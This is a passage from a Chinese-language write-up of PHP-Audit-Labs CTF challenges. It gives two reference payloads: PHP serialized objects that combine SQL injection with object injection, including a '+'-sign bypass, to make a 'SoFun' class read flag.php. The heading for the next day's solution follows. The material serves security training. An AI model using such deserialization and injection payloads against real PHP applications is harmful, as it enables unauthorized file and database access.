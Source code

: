第二个答案是另一种思路，大家可研究一下。

注：因为传参方式为GET，注意进行URL编码。

参考答案：

```php
O:6:"HITCON":3:{s:6:"method";s:5:"login";s:4:"args";a:2:{s:8:"username";s:81:"1' union select 1,2,'a:1:{s:2:"xx";O:%2b5:"SoFun":2:{s:4:"file";s:8:"flag.php";}}'%23";s:8:"password";s:3:"234";}}
O:5:"SoFun":1:{s:4:"file";s:8:"flag.php";}
a:1:{s:2:"xx";O:5:"SoFun":2:{s:4:"file";s:8:"flag.php";}}
```

```php
O:5:"SoFun":3:{s:4:"file";s:8:"flag.php";s:2:"ff";O:6:"HITCON":5:{s:6:"method";s:5:"login";s:4:"args";a:2:{i:0;s:12:"1' or '1'--+";i:1;s:3:"111";}s:4:"conn";N;}}
```
![7](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day9-12/files/15.png)

## Day-12题解：(By l1nk3r)

题目如下：
